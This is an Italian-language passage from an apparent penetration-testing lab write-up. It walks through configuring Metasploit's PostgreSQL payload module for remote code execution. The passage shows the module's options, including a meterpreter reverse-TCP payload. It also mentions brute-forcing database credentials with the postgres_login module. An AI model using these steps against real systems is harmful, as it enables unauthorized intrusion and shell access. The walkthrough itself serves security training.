 Metasploit ci dice dunque che questo exploit sfrutta una vulnerabilità nel modo in cui postgres carica le cosiddette Database Link Libraries e permette di ottenere Remote Code Execution. Per iniziare l'exploit vediamo le opzioni da settare:

```
msf6 exploit(linux/postgres/postgres_payload) > options

Module options (exploit/linux/postgres/postgres_payload):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  template1        yes       The database to authenticate against
   PASSWORD  		            no        The password for the specified username. Leave blank for a random password.
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     5432             yes       The target port
   USERNAME  		            yes       The username to authenticate as
   VERBOSE   false            no        Enable verbose output


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86
```

Vediamo che tra le opzioni configurabili ci sono anche username e password, che teoricamente non conosciamo. Vediamo però dalla ricerca precedente che è presente un modulo ausiliario denominato `postgres_login`, e ci permette con un attacco a semi-forza bruta di cercare automaticamente delle credenziali di login. Vediamo quindi i risultati dell'esecuzione:

<img src="../imgs/postgres_login.png" width="800"> </br>

